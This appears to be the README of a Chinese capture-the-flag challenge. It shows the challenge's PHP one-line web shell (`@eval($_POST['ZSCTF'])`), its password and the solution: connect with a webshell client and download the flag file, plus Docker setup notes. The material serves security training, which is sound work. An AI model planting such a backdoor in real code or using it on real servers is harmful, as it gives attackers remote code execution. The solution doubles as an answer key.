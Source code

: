 # One_Word
* 题目简介：嘘！连上就有flag，偷偷告诉你连接的密码是` ZSCTF`。

* HINT：源码：
```php
<?php
@eval($_POST['ZSCTF']);
?>`
```
* PS：HINT在比赛进行到一半仍较少人做出该题是放出

* 解法：通过查看提供的密码使用蚁剑或者其他工具连上index.php，下载处于根目录下的flagXXXXX文件，获取flag

* 考点：PHP一句话木马

* 题目搭建：运行`build_docker.sh` 一键搭建。flag为静态，生成后会在根目录下。`entrypoint.sh`脚本会随机修改flag文件的名字，名字为flagXXXXX，请酌情修改脚本。
